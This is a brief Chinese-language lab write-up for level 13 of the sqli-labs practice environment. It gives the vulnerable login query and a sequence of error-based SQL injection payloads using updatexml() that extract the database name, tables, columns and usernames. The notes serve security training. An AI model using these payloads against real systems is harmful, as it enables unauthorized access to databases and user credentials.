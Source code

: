 ```yaml
---
title: less13
url: https://www.yuque.com/u29002979/ep2zrx/fgtmtrfgkke6rm22
---
```


```bash
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
```

与Less12的唯一区别为闭合方式为**')** &#x20;
`1')` <a name="nEKcR"></a>

# 报错注入

用**updatexml()函数**进行报错注入 &#x20;
updatexml（1，2，3）

```bash
查询字段数
1') order by 3-- + 
登录后页面报错Unknown column '3' in 'order clause'
1') order by 2-- +
没有提示错误，说明有2个字段；

判断回显点
1') union select 1,2 -- +
没有显示1，2

查询数据库表
-1') or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1') or updatexml(1,concat(0x7e,(select (table_name)from information_schema.tables where table_schema=database() limit 2,1),0x7e),1) -- +
爆破字段名
-1') or updatexml(1,concat(0x7e,(select (column_name)from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
-1') or updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1) -- +

```
